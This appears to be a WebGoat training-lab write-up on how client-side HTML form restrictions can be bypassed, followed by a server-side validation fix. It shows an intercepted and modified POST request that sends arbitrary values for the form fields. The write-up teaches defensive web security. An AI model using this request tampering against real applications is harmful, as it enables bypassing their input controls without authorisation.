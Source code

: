  	
## Vulnerability:

As previously, client-side validation (this time in form of HTML restrictions) is only respected by the browser so it's not security measure. One can trivially send request which sets arbitrary values for inputs in the form as shown below.

## Exploitation:

I used ZAP to intercept Firefox request, I've modified request (see my request below) & resent it.

```
POST http://webgoat.hacking-lab.com/attack?Screen=51&menu=1700 HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:30.0) Gecko/20100101 Firefox/30.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
DNT: 1
Referer: http://webgoat.hacking-lab.com/attack?Screen=51&menu=1700
Cookie: JSESSIONID=BE78568F44EF325354FDF39A12E0E7AC
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Host: webgoat.hacking-lab.com

select=sdf&radio=sdfdsf&checkbox=sdfn&shortinput=sdfsdfsdf&disabledinput=sdfffff&SUBMIT=sdfsdfsdddfsdfsdfsdf
```

Mitigation:

HTML restrictions are only enforced on client-side (by browser). Server-side validation is needed to make sure that only allowed input was provided. 
